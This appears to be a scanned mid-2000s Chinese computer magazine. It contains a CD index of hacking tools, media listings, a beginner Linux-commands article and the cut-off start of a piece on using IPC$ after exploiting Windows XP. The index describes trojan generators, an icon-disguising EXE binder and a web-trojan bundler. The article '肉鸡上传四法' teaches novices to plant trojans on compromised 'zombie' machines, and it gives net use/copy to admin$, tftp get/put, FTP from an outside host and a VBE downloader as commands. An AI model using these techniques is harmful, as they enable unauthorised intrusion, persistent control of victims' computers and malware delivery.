





## 光盘索引

### 黑客工具 A 组

**辅臣MDB数据库浏览器：** 一个打开MDB数据库的工具。

**PortMapper：** 能将机器的端口号TCP/UDP映射到其他的机器或其他IP地址上，支持来访IP的访问控制，停留在system tray上，非常不错的软件。

**明小子旁注入侵工具：**

**ACCESS密码破解器：**

**Access密码分析器：** 可以自动判断ACCESS97/2000/XP并分析出数据库密码，更易于使用，同时修改了界面，修正了多个错误。

**黑洞2005：**

**极速漏洞扫描器：** 功能一：端口扫描设置（简单扫描、标准扫描、完全扫描）；功能二：远程开启3398端口；功能三：暴出Dvbbs 7.10物理地址。

**美国wow魔兽生成器：** 把asp收信程序解压到桌面后，上传到支持asp的空间上面去，如果上传正确，可以看到后台页面。

**QQ屠夫：** 程序使用非常简单，打开主程序QQmassacre.exe后，填写各个配置项目，然后点生成木马就可以了。生成后的木马体积只有20K左右。程序在98下修改注册表启动，在2000以上操作系统下以自定义服务方式启动。

**EXE捆绑机3.0：** 本软件可以把两个可执行程序捆绑成一个程序，执行捆绑后的程序就等于同时执行了两个程序，而且它会自动更改图标，使捆绑后的程序和捆绑前的程序图标一样，做到天衣无缝。

**网页木马生成器：**

**WinPcap 3.1：** 它是WIN32平台上网络分析和捕获数据包的链接库，其功能相当于Linux/BSD/UNIX平台下的Libpcap库文件。

**nmap 3.90：** 是一款针对大型网络的端口扫描工具，尽管它也适用于单机扫描。在不同情况下，你可能需要隐藏扫描、越过防火墙扫描或者使用不同的协议进行扫描。

**Resplendent Registrar：** 运行于Windows XP/2000/NT/ME/9x下的超强注册表编辑工具。它允许你像使用资源管理器一样对注册表进行复制、剪切、粘贴、移动等操作。软件的搜索及替换功能十分强大；书签编辑器可以对注册表书签进行彩色显示、添加注释等。

**tscrack：** 针对Win2000终端服务的一个密码破解程序。这个程序被微软推荐给用户使用，来检查终端服务密码的强壮性。

**超级字典生成器：** 一款十分好用的密码字典生成工具，采用高度优化算法，制作字典速度极快，约每分钟800兆（CPU=800MHz）。

**超级兔子魔法设置：** 国内和Windows优化大师齐名的系统设置软件，清晰的分类让你迅速找到相关功能，提供几乎所有Windows的隐藏参数调整，可以改变系统设置、优化系统、清洁电脑，让上网的电脑更安全。

**Foxmail帐户口令清除器：** 忘记帐户密码后为解除口令而写出的一个绿色小软件（解压到一单独目录后只有两个文件Readme.txt与Clr_FoxmailPwd.exe），希望对有同样遭遇的同仁会有所帮助。

**WinHex：** 一个很不错的16进制文件编辑与磁盘编辑软件。可做Hex与ASCII码编辑修改，多文件寻找替换功能，一般运算及逻辑运算，磁盘磁区编辑（支持FAT16、FAT32和NTFS）自动搜寻编辑，文件比对和分析等功能。

**Passware KIT：** Passware解密工具合集，不论是遗忘的Office、Windows、Zip、Lotus密码它都能帮您统统找回来！

**Windows NT/2K攻击探测机：** 功能强大，使用简单，增加了自动上传远程图形控制后门功能。

**Remote Administrator：** 可以通过网络控制其他的计算机，可以实现全屏功能，好像在使用自己的计算机。只要能通过局域网或互联网相连，对方的计算机可以在任何地方。

**Z-file伪装加密软件：** 一个与众不同的加密工具，它可以将加密的结果再隐藏入一个bmp格式的图形文件，让别人看不见你的重要文件。更有电子邮件、密码管理等功能。

**MIME漏洞网页生成器：** 一个是MIME漏洞程序捆绑器（可以将木马捆绑到网页中）。

**代理服务器CCProxy：** 增加了热键功能开关，对应ini文件里的EnableHotKey。增加了proxy-connection开关，对应ini文件里的EnableProxyConnection，有些网站屏蔽代理访问，可以通过修改这个选项来实现。

## 索引

现突破屏蔽。

**TegoWeb及文章工具包：** 这个软件通过ActiveX可以把普通的软件转化为可以在你的主页直接执行的在线版本。它的兼容性和稳定性经过几个版本的升级，现在已经相当不错了，只要不是太大型的软件，一般都可以成功地转化，Tegoweb注册机等。

**Sqlexec：** SQL数据库连接器，用于SQL漏洞入侵，连接后可以得到计算机的CMD，在CMD下进行入侵。该软件简单好用。

**Bifrost：** 短小精悍的反弹木马。可自定义端口，可自定义密码，来保护你的肉鸡，支持注册表启动、ActiveX启动、支持延迟运行等。

**Recton：** 提供两种植入方式：1、传统的IPC方式；2、http下载方式。第一种方式不依赖Task Scheduler服务。通过WMI服务在远程主机上写入一个具有下载功能的脚本，然后执行这个脚本去指定http地址下载文件。

**挚达计算机USB控制器：** 一款安全级别较高的计算机防拷贝软件。它可以有效地控制计算机的USB设备，防止计算机信息被非法拷贝和泄密，适用于各种需要严格保密的计算机或具备特殊用途的计算机。

**rhdtool.exe：** 能够隐藏在Office文档中的秘密网页痕迹，包括：批注、以前的作者和编辑者、用户名、个人摘要信息、修订标记、版本、VB宏、发送名单、电子邮件头、方案备注。

**Ghost：** 一个出色的硬盘对拷工具，它可以把一个磁盘上的全部内容复制到另外一个磁盘上，也可以把磁盘内容复制为一个磁盘的镜像文件，以后你可以用镜像文件创建一个原始磁盘的拷贝。



### 地址测试

- 《人体穴位与推拿》
- 《成语大全》
- 《大长今》
- 《第二次世界大战简史（插图本）》
- 《家装设计全攻略》
- 《李敖大全集电子版合集》
- 《刘德华画传》
- 《美容大王》
- 《图解PHOTOSHOP CS2新功能体验》
- 《中华人民共和国分省地图册》

## 搞笑FLASH

- 动画速写——范伟和本山
- 兰兰的第一次
- 奇志相声
- 白吃

## FLASH游戏

- 一起做月饼哦
- 江湖找茬玩
- 是男人就立住不倒
- 勇者泡泡龙

## FLASH音乐

- 芙蓉姐夫柔情版
- 空城
- 告别了，我最爱的人
- 寂静之音
- 一直很安静

## 情感FLASH

- 爱靠思念活下去
- 爱情是一部忧伤的童话
- 别人
- 我是你的月亮
- 我最爱的猪

## 光盘索引

### 流民一族

- 幻想游戏4.2
- 2005东京电玩展现场MM视频
- 极品飞车9预告片

### 天籁之音

- 超级女声《终极PK》专辑
- 梁静茹《丝路》专辑

### MTV

- 死亡金属
- 潘玮柏&弦子《不得不爱》
- 王蓉《爸爸妈妈》
- 张韶涵《娃娃》（大长今MTV）
- Free Style《please tell me why》
- 韩国MM劲歌热舞秀
- Bada《Somehow Somewhere》
- 黄色卡片《海洋大道》
- Madonna《Die Another Day》
- Blue《CURTAIN FALLS》

### 搞笑视频

- 《灌篮高手》韩国真人版
- 《头文字D》中AE86赛车真实版
- 5秒让你笑
- TVB记者头上飞来一只小强
- 百度打击google的广告
- 大长今广告搞笑版
- 功夫超一流的警察
- 马路上演新版黑客帝国
- 日本搞笑整人节目
- 日本是这样教育学生的
- 这样的大雪你还敢开车吗？

### 广告男孩搞笑视频

- 《I want it that way》
- 《童话》
- 《As long as you love me》
- 《Radio in My Head》
- 粗声衰演

### 广告影片

- Lotteria快餐公司广告
- Mamonde化妆品广告
- Mise-en-scene洗发水广告
- 韩国现代汽车广告
- 全智贤代言HANAFOX广告
- 三星ANYCALL手机广告
- 夏普SHARP SX833广告
- 张娜拉代言巧克力棒广告

### 片头广告

- 《哈利波特4》预告片
- 《电锯惊魂2》预告片
- 《童梦奇缘》预告片

# 小鸡快跑



# 小鸡快跑



## 肉鸡上传四法

#### 逆流风

对于入侵电脑来说，溢出不失为一种找肉鸡的好方法，但是一些新手用别人编译的溢出工具端出后，就不知道该怎么保存肉鸡。这时，大家想到木马了吧，但是怎么上传呢，现在我就说说网上几种常用的方法。

#### 1. IPC$

IPC$（Internet Process Connection）是共享“命名管道”的资源。它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应权限，在远程管理计算机和查看共享资源时使用。建立IPC$共享需要对方用户名和密码。文中给出了 `net use`、`copy` 等命令示例，并说明在shell中执行即可。

```bash
net use \\ip\ipc$ "密码" /user:"用户名"
copy c:\server.exe \\ip\admin$
```

#### 2. TFTP

TFTP全称为Trivial File Transfer Protocol，中文名叫简单文件传输协议，适合传送“简单”文件。得到对方shell后，可以用tftp协议传送文件。先在本地运行tftp32，并把待上传文件与程序放在同一目录，语法：`tftp [-i] [Host] [{get|put}] [Source] [Destination]`。

例如下载到对方主机：先在对方CMD中输入 `ftp liyx.512j.com`（文中示例），再按提示输入用户名密码登录，随后用 `get RemoteFile [LocalFile]` 下载 `server.exe` 等文件到当前用户目录。



“put”将本地计算机上的文件传送到远程计算机上；“get”将远程计算机上的文件传送到本地计算机上。文中给出 `tftp -i ip get server.exe c:/server.exe` 与 `tftp -i ip put server.exe` 的示例。



#### 3. FTP

FTP是常见方法，可用免费空间中转，也可自建FTP服务。文中提到20CN MINI FTP服务器，强调简单易用。



#### 4. iget.vbe

这里iget.vbe是一个脚本文件，用于下载木马。先用记事本和 `copy con iget.vbe` 创建脚本，再执行 `cscript iget.vbe ...` 从指定地址下载 `server.exe`。





### 总结

作者表示本文技术门槛不高，主要面向新手。文件传输除文中4种外还有其他方式（如exe2bat、dl.vbe等），最后以“run quickly”作结。

## 条条大道通罗马
### 另类 Linux 大体验

耿诗伟

Linux 是一个免费的类 Unix 操作系统。最早由芬兰大学生 Linus Torvalds 于 1991 年开发，经过 Internet 上志愿程序员和公司的支持，Linux 的影响和应用日益广泛。其成功与稳定性有关，但最重要的是“免费”。用户可以直接在 Internet 上下载使用，平台上的许多应用程序也可免费获取。

说了这么多 Linux 的好处，很多朋友可能还是“怕 Linux 了”，受限于硬件或环境未必能接触到。文中推荐了一个学习 Unix/Linux 的站点：`http://www.cyberspace.org`，可在其主机申请账号并练习 Unix 命令。

> **小知识**
>
> Telnet 是进行远程登录的标准协议和主要方式。它使用户可在本地计算机上完成远程主机工作。Telnet 资源可能是个人账号登录，也可能是公共开放的信息资源。

Telnet 是较简单的 Internet 工具之一。在 Unix 中输入 `telnet 远程主机名` 即可连接；在 Windows 中可使用 Telnet 客户端建立连接。随后输入用户名和密码，登录成功后即可进入命令行环境开始学习。

### 1. ls

你还记得第一个 DOS 命令 `dir` 吗？在 Unix 中对应的是 `ls`，用于列出当前目录下的文件与目录。常用参数有 `-l`、`-a`、`-F`，可组合为 `ls -l -a -F` 或 `ls -laF`。其中：`-l` 显示详细信息；`-a` 显示隐藏文件；`-F` 显示文件类型标记（如 `*` 可执行、`/` 目录、`@` 链接）。

### 2. cd

`cd` 用于切换目录。若不带参数则返回工作目录。Unix 常见路径符号：`.` 当前目录，`..` 上一级目录，`~` 用户主目录。示例：`cd ~li` 可切换到用户 li 的工作目录。

### 3. date

`date` 显示当前时间和日期。普通用户通常无权修改系统时间（文中提到 `sagi` 注）。

### 4. who

`who` 用于查看当前系统在线用户。`who am i` 可显示当前用户及终端类型等信息。

### 5. more

`more` 类似 DOS 的 `type`，用于分页查看文本文件内容。例如：`more file1`。可用空格翻页、回车下移一行，也可指定起始行（如 `more +100 file1`）或关键字定位（如 `more +/key_word`）。

先介绍这么多，这篇文章主要是激发大家对 Linux 的兴趣，鼓励在自由世界中动手实践。

## 关于溢出 XP 后如何使用 IPC$
### —— 用命令建立无毒后门

Donaroo

WinXP 系统对于外来用户即使是 admin 也当成 guest，所以我们就算得到对方的 admin 账号密码也无法使用 ipc$ 去连接对方……这是非常令人头痛的问题。

今天我在 XP 的本地安全策略中看到“网络访问：本地账户的共享和安全模式仅来宾……”，改成“经典——本地用户以自己的身份验证”后，再测试 IPC，问题得到线索。

